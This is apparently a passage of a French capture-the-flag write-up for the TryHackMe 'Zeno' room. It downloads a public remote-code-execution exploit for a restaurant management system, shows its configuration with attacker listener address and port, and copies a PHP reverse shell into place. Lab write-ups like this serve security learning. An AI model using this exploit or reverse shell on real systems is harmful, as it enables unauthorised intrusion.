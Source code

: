 ![page](./Task1-01.png)   

On tombe sur une page de connexion qui nous présente un système de gestion d'hôtel restaurant.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget https://raw.githubusercontent.com/BJConway/thm_writeups/main/challenges/zeno/rms_exploit.py -nv
2021-11-05 14:23:44 URL:https://raw.githubusercontent.com/BJConway/thm_writeups/main/challenges/zeno/rms_exploit.py [1516/1516] -> "rms_exploit.py" [1]
```
On trouve sur internet un exploit.  



```bash
tim@kali:~/Bureau/tryhackme/write-up$ head -15 rms_exploit.py 
#!/usr/bin/env python3

# Simple implementation of Idad Shah's Restaurant Management System 1.0 RCE exploit script for Try Hack Me's Zeno room
# Idad Shah's original script : https://www.exploit-db.com/exploits/47520
# Vulnerable application : https://www.sourcecodester.com/php/11815/restaurant-management-system.html
# Try Hack Me IDE : https://tryhackme.com/room/zeno

import requests

# configure
LHOST = '10.9.228.66' 
LPORT = '1337'
RHOST = 'zeno.thm' # ip of target without port

# don't touch for basic use

tim@kali:~/Bureau/tryhackme/write-up$ cp reverseShell.php shell.php

```
